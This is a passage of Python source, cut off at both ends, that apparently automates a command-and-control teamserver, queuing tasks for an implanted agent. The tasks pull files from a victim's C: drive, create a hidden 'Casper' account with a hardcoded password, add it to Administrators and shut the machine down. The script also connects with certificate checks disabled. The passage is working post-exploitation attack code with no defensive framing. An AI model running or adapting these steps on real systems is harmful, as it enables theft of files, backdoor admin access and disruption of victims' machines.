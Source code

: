 ```python
    )
    append_step("upload_summon", payload)

    for name, remote in [
        ("download_samantha", r"C:\\samantha.txt"),
        ("download_systemic", r"C:\\systemic.txt"),
        ("download_security", r"C:\\security.txt"),
    ]:
        _, payload = make_task(
            agent_id,
            15,
            f"download {remote}",
            SubCommand="download",
            Arguments=encode_path(remote),
        )
        append_step(name, payload, download=remote)

    _, payload = make_task(
        agent_id,
        0x1010,
        "powershell net user Casper IamAGhost12345!!! /add",
        ProcCommand="4",
        Args=encode_ps("net user Casper IamAGhost12345!!! /add"),
    )
    append_step("add_user", payload)

    _, payload = make_task(
        agent_id,
        0x1010,
        "powershell net localgroup Administrators Casper /add",
        ProcCommand="4",
        Args=encode_ps("net localgroup Administrators Casper /add"),
    )
    append_step("add_to_admins", payload)

    _, payload = make_task(
        agent_id,
        0x1010,
        "powershell Stop-Computer",
        ProcCommand="4",
        Args=encode_ps("Stop-Computer"),
    )
    append_step("stop_computer", payload, expect_output=False)

    return steps


async def workflow_runner():
    ARTIFACT_DIR.mkdir(parents=True, exist_ok=True)

    ssl_context = None
    if TEAMSERVER.startswith("wss://"):
        ssl_context = ssl.create_default_context()
        ssl_context.check_hostname = False
        ssl_context.verify_mode = ssl.CERT_NONE

    async with websockets.connect(TEAMSERVER, ssl=ssl_context) as ws:
        await authenticate(ws)

        listener_sent = False
        listener_ready = False
        payload_requested = False
        payload_saved = False
```